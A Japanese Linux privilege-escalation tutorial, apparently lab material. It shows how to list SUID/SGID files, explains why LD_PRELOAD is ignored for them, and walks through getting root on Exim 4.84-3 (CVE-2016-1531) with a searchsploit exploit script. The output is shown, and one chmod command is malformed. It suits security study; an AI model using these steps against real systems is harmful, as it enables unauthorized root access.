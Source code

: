 SUIDまたはSGIDビットが設定されているファイルを探すには、次のfindコマンドを使用します。  
```
$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \;
2> /dev/null
-rwxr-sr-x 1 root shadow 19528 Feb 15 2011 /usr/bin/expiry
-rwxr-sr-x 1 root ssh 108600 Apr 2 2014 /usr/bin/ssh-agent
-rwsr-xr-x 1 root root 37552 Feb 15 2011 /usr/bin/chsh
-rwsr-xr-x 2 root root 168136 Jan 5 2016 /usr/bin/sudo
-rwxr-sr-x 1 root tty 11000 Jun 17 2010 /usr/bin/bsd-write
-rwxr-sr-x 1 root crontab 35040 Dec 18 2010 /usr/bin/crontab
...
```
LD_PRELOAD と LD_LIBRARY_PATH について簡単に説明します。   
あなたはこう思うかもしれません。   
LD_PRELOAD と LD_LIBRARY_PATH 環境変数のトリックは sudo 権限昇格で使用したのと同じでないのか?   
Linuxでは、明らかにセキュリティリスクがあるため、デフォルトでは無効になっています。セキュリティ上のリスクがあるためです。   
これらの環境変数は、SUID ファイルが実行されたときに無視されます。   
一部のプログラムは、操作を支援するために SUID ファイルをインストールします。   
root として実行されるサービスが脆弱性を持つ可能性があるのと同様に、
ルート シェルを悪用できるので、これらの SUID ファイルも悪用できます。   
エクスプロイトは、Searchsploit、Google、および GitHub を使用して見つけることができます。   
カーネルとサービスのエクスプロイトを見つけるのと同じ方法です。   
# Privilege Escalation
1. ターゲット上のSUID/SGIDファイルを検索します。
```
$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \;
2> /dev/null
...
-rwsr-xr-x 1 root root 963691 May 13 2017 /usr/sbin/exim-4.84-3
...
```
Eximは人気のあるメール転送エージェントですが、多くのセキュリティ上の脆弱性を持つことでやや悪名高いです。   
2. eximのバージョンはファイル名を見れば一目瞭然なのですが、確認することができます。   
```
$ /usr/sbin/exim-4.84-3 --version
Exim version 4.84 #3 built 13-May-2017 01:45:35
```
3. 私たちのローカルマシンでsearchsploitを使用すると、この正確なバージョンでローカルな特権の昇格が見つかります。
```
# searchsploit exim 4.84
...
Exim 4.84-3 - Local Privilege Escalation |
exploits/linux/local/39535.sh
```
4. エクスプロイト スクリプトをターゲット マシンにコピーします。スクリプトから ^M 文字を削除する必要がある場合があります。
```
$ sed -e "s/^M//" 39535.sh > privesc.sh
```
なお、^Mを出すには、Ctrlを押しながら、VとMを連続して押す必要があります。
5. スクリプトが実行可能であることを確認する
```
$ chmod + privesc.sh
```
6. スクリプトを実行し、root shellを取得する。
```
$ ./privesc.sh
[ CVE-2016-1531 local root exploit
sh-4.1# id
uid=0(root) gid=1000(user) groups=0(root)
```